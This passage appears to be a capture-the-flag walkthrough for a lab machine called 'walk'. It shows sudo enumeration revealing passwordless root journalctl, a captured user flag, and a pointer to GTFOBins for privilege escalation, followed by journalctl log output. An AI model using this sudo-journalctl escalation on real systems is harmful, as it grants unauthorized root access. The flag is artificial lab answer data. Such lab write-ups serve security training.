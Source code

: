 <img src="https://imgur.com/TcrMZBJ.png"/>


Running `sudo -l` to check what can we run as sudo 

```
falcon@walk:~$ sudo -l
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl
falcon@walk:~$ 


```

We can the user flag 

```
drwxr-xr-x 5 falcon falcon 4096 Jan 30  2020 .
drwxr-xr-x 3 root   root   4096 Jan 28  2020 ..
lrwxrwxrwx 1 root   root      9 Jan 30  2020 .bash_history -> /dev/null
-rw-r--r-- 1 falcon falcon  220 Jan 28  2020 .bash_logout
-rw-r--r-- 1 falcon falcon 3771 Jan 28  2020 .bashrc
drwx------ 2 falcon falcon 4096 Jan 28  2020 .cache
drwx------ 3 falcon falcon 4096 Jan 28  2020 .gnupg
-rw------- 1 root   root     36 Jan 29  2020 .lesshst
-rw-r--r-- 1 falcon falcon  807 Jan 28  2020 .profile
drwxr-xr-x 2 root   root   4096 Jan 29  2020 .ssh
-rw-r--r-- 1 falcon falcon    0 Jan 29  2020 .sudo_as_admin_successful
-rw-r--r-- 1 falcon falcon   21 Jan 29  2020 user.txt
falcon@walk:~$ cat user.txt 
B8LEGIF049JT4RTVWUG4

```
On visting `GTFOBINS` we might be able to escalate privileges

<img src="https://imgur.com/pwP0xrq.png"/>

### Privilege Escalation

<img src="https://imgur.com/7zlzYyU.png"/>

```
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x002: 'SSE registers'
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x004: 'AVX registers'
Jan 28 19:00:21 walk kernel: x86/fpu: xstate_offset[2]:  576, xstate_sizes[2]:  256
Jan 28 19:00:21 walk kernel: x86/fpu: Enabled xstate features 0x7, context size is 832 bytes, using 'standard' form
Jan 28 19:00:21 walk kernel: e820: BIOS-provided physical RAM map:
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x0000000000000000-0x000000000009fbff] usable
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x000000000009fc00-0x000000000009ffff] reserved
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x00000000000f0000-0x00000000000fffff] reserved
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x0000000000100000-0x000000003ffeffff] usable
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x000000003fff0000-0x000000003fffffff] ACPI data
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x00000000fec00000-0x00000000fec00fff] reserved
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x00000000fee00000-0x00000000fee00fff] reserved
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x00000000fffc0000-0x00000000ffffffff] reserved
Jan 28 19:00:21 walk kernel: NX (Execute Disable) protection: active
Jan 28 19:00:21 walk kernel: random: fast init done
Jan 28 19:00:21 walk kernel: SMBIOS 2.5 present.
Jan 28 19:00:21 walk kernel: DMI: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
Jan 28 19:00:21 walk kernel: Hypervisor detected: KVM
Jan 28 19:00:21 walk kernel: e820: update [mem 0x00000000-0x00000fff] usable ==> reserved
```